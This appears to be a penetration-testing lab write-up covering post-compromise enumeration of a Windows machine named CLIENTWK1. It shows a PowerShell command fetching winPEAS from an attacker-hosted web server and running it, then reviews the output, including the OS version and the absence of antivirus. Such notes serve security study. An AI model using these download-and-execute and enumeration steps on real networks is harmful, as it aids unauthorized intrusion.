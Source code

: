 - Gain situational awareness in a network
- Enumerate hosts, services, and sessions in a target network
- Identify attack vectors in a target network

### Situational Awareness

Enumerate CLIENTWK1 machine with #winpeas 

Copy winpeas to #pythonhttpserver directory

Download and execute winpeas as marcus 
```hlt:5,8
PS C:\Windows\System32\WindowsPowerShell\v1.0> cd C:\Users\marcus
cd C:\Users\marcus

PS C:\Users\marcus> iwr -uri http://192.168.119.5:8000/winPEASx64.exe -Outfile winPEAS.exe
iwr -uri http://192.168.119.5:8000/winPEASx64.exe -Outfile winPEAS.exe

PS C:\Users\marcus> .\winPEAS.exe
.\winPEAS.exe
...
```

#### Reviewing Winpeas output
##### Basic System Info
```hlt:5
����������͹ Basic System Information
� Check if the Windows versions is vulnerable to some known exploit https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits
    Hostname: CLIENTWK1
    Domain Name: beyond.com
    ProductName: Windows 10 Pro
    EditionID: Professional
```
- OS is Windows 10 Pro
- Winpeas may falsely detect Windows 11 as Windows 10

Manually checking OS with `systeminfo`
```hlt:5
PS C:\Users\marcus> systeminfo
systeminfo

Host Name:                 CLIENTWK1
OS Name:                   Microsoft Windows 11 Pro
OS Version:                10.0.22000 N/A Build 22000
```
- OS is actually Windows 11 

##### AV Info
```hlt:3
����������͹ AV Information
  [X] Exception: Object reference not set to an instance of an object.
    No AV was detected!!
    Not Found
```
- No AV detected
